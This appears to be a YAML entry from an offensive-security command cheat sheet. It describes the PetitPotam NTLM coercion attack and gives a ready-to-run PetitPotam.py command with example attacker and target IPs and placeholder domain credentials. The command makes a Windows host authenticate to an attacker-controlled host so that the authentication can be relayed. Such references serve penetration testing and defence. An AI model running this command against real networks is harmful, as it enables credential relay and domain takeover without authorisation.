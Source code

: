 ```yaml
---
description: |
  PetitPotam leverages the MS-EFSRPC API to connect to a Windows host, hijack the authentication session, and trigger an authentication from the target host to an attacker controlled host (usually SMB or HTTP server). This captured authentication can then be relayed to authenticate to other hosts and perform more attacks. See more in ntlmrelayx.py.

  Command Reference:

  	Target IP: 10.10.10.1

  	Attacker IP: 10.10.10.2

  	Domain: test.local

  	Username: john

  	Password: password123

command: |
  python3 PetitPotam.py -d test.local -u john -p password123 10.10.10.2 10.10.10.1
items:
  - Password
  - Username
services:
  - RPC
  - NTLM
OS:
  - Linux
  - Windows
phases:
  - Exploitation
references:
  - https://github.com/topotam/PetitPotam
  - https://www.truesec.com/hub/blog/from-stranger-to-da-using-petitpotam-to-ntlm-relay-to-active-directory
---
```

